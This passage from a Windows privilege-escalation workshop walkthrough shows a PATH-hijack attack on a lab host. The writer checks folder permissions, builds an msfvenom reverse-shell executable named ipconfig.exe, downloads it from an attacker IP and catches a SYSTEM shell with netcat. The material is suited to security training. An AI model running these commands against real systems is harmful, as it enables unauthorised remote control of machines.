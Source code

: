 We can see that C:\DevTools is first in the path. If we can control C:\DevTools and drop a malicious binary named ipconfig.exe into it, we will get our malicious payload executed.

Let's check permissions:

````
PS C:\> icacls.exe DevTools
DevTools BUILTIN\Users:(OI)(CI)(F)
         BUILTIN\Administrators:(I)(F)
         BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
         NT AUTHORITY\SYSTEM:(I)(F)
         NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
         BUILTIN\Users:(I)(OI)(CI)(RX)
         NT AUTHORITY\Authenticated Users:(I)(M)
         NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)

Successfully processed 1 files; Failed processing 0 files
PS C:\> 
````
We have full control!

So now we create our payload:

````
root@kali:~/LPEWorkshop# msfvenom -p windows/shell_reverse_tcp LPORT=31337 LHOST=YOURIPHERE -f exe > ipconfig.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
````

We transfer it to our victim host:

````
PS C:\> (New-Object System.Net.WebClient).DownloadFile("http://10.22.6.122/ipconfig.exe", "C:\DevTools\ipconfig.exe")
PS C:\> 
````

Now we wait for the service to call our malicious executable.

And we get a shell as NT\Authority System
````
root@kali:~/LPEWorkshop# nc -lvnp 31337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.22.6.49.
Ncat: Connection from 10.22.6.49:52119.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami & hostname
whoami & hostname
nt authority\system
LPETestbed

C:\Windows\system32>
````
### Let's talk about Hot Potato ###
